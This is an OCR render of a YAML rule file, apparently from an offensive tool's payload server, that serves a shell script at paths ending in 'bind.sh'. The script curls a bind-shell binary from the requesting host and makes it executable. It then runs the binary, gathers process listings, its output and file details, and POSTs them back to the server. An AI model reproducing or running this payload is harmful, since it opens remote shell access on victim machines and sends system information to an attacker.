 ```yaml
---
title: Bind Shell
description: Requires bind-shell in static dir
weight: 1
pattern: /bind.sh$
is_final: true
data:
  headers:
    Content-Type: text/plain
  body: |
    DEST_FILE=/tmp/bs
    killall bs
    #if [ ! -f $DEST_FILE ]; then
      OS=$(uname)
      ARCH=$(uname -m)
      curl {{.Request.Host}}/mdaas/$OS/$ARCH/bind-shell > $DEST_FILE
      chmod +x $DEST_FILE
    #fi
#    bash -c "$DEST_FILE > /tmp/bso 2>&1 &" &
    $DEST_FILE > /tmp/bso 2>&1
    r=$(ps aux | grep bs ;cat /tmp/bso; ls -lah /tmp/bs)
    disown

    echo $r
    curl "{{.Request.Host}}/l/res/" --data "$r" -X POST
---
```

